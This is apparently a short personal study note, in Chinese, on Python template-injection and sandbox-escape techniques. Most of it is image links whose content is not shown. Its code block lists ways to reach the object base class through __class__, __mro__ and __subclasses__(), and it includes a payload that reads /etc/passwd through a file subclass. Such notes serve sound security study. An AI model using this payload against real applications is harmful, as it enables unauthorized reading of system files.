 
![[Pasted image 20231209103240.png]]

![[Pasted image 20231209103306.png]]
![[Pasted image 20231209103325.png]]
```
获取基类的几种方法：
[].__class__.__base__

''.__class__.__mro__[2]

().__class__.__base__

{}.__class__.__base__

request.__class__.__mro__[8] 　　

[].__class__.__bases__[0]  

获取基本类的子类
[].__class__.__base__.__subclasses__()

我们可以利用的方法有<type 'file'>等（甚至file一般是第40号）

 ().__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```
![[Pasted image 20231209103343.png]]
![[Pasted image 20231209103419.png]]
![[Pasted image 20231209103438.png]]
![[Pasted image 20231209103504.png]]
![[Pasted image 20231209103517.png]]




